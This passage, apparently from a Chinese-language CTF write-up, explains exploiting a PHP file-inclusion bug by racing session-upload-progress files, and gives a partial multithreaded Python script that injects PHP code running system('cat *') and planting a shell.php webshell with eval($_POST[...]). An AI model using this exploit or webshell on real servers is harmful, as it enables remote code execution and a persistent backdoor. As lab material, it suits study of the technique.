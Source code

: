 
![image-20240425185537567](D:\Infiltration\笔记\note\图片\image-20240425185537567.png)



文件包含session,因为seesion文件会定时清空，所以使用条件竞争

访问包含路径，并抓包放入Intruder里面

```
/tmp/sess_ctf
```

![image-20240425235051367](D:\Infiltration\笔记\note\图片\image-20240425235051367.png)





两个数据包都丢到Intruder进行无payload发包，一个不断生成seesion，一个不断访问路径,访问成功就会创建一个shell.php

![image-20240425190119015](D:\Infiltration\笔记\note\图片\image-20240425190119015.png)

没有碰撞成功过，使用python多线程能跑出flag

```

# 导入必要的库
import io
import sys
import requests
import threading

# 会话ID
sessid = 'Qftm'
http = 'https://'

# 定义POST函数用于上传文件
def POST(session):
    while True:
        # 创建50KB大小的文件对象
        f = io.BytesIO(b'a' * 1024 * 50)
        # 发起POST请求，上传文件并伪造文件内容包含一句PHP一句话木马代码
        session.post(
            http,
            data={
                "PHP_SESSION_UPLOAD_PROGRESS":"<?php system('cat *');fputs(fopen('shell.php','w'),'<?php @eval($_POST[mtfQ])?>');?>"
            },
            files={"file":('q.txt', f)},
            cookies={'PHPSESSID': sessid}
        )

# 定义READ函数用于读取上传的文件内容
def READ(session):
    while True:
        response = session.get(f'{http}?file=/tmp/sess_{sessid}')
        if 'flag' not in response.text:
            print('[+++]retry')
        else:
            # 若文件内容中包含'flag'则打印内容并退出程序
            print(response.text)
            sys.exit(0)

# 创建会话
with requests.session() as session:
    # 创建并启动线程用于上传文件
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
```